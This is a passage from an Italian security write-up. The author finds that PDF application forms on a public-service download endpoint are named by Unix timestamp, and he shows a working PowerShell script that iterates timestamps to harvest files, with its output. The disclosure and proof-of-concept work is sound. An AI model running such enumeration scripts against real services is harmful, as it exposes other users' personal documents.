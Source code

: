 1600973887? Sembra un po' elevato per essere un numero progressivo.

Faccio un paio di reload, 1600974132, 1600974134, 1600974137...

Potrebbe essere random, ma mi fa ricordare qualcosa... momento... ah si, il timestamp Unix!

Proviamo a scaricarlo... http://213.X.X.X:8080/fake_path_censored/download.php?f=modello_domanda_1600973887.pdf

Con i campi vuoti, però esiste.

E' arrivato il momento di provare se la pratica segue la teoria.

Scrivo questo codice in Powershell e prendo il cellulare per provare a creare un documento da un dispositivo e intercettarlo con l'altro.
~~~
$time = [int][double]::Parse((Get-Date -UFormat %s)) - 7220;
do {
    echo $time
    $response = Invoke-WebRequest -Uri http://213.X.X.X:8080/fake_path_censored/download.php?f=modello_domanda_$($time).pdf
    if($response.ToString().IndexOf("File does not exist") -eq -1) {
      $response = Invoke-WebRequest -Uri http://213.X.X.X:8080/fake_path_censored/download.php?f=modello_domanda_$($time).pdf -OutFile "modello_domanda_$($time).pdf"
     }
     else
     {
        echo "File non trovato!"
     }
     $time++
     sleep -Seconds 1
 } while (1 -eq 1)
~~~
PS: I 7220 secondi di differenza servono perché apparentemente l'orario del server non è corretto. Lo so che il codice non è perfetto e non è elegante, ma è solo per fare un POC, non deve funzionare perfettamente.

Risultato?
~~~
File non trovato!
1600975396
File non trovato!
1600975397
File non trovato!
1600975398
1600975399
File non trovato!
1600975400
File non trovato!
1600975401
File non trovato!
~~~
Il 1600975398 è il file che ho generato io con il cellulare, e sono riuscito a scaricarlo in PDF, che è stato automaticamente salvato nella cartella dove ho eseguito lo script.
Al momento sono l'unico utilizzatore del servizio perché il bando non è ancora attivo (e sto facendo i test fuori orario lavorativo), ma se lo fosse stato avrei potuto raccogliere le richieste anche degli altri utenti.
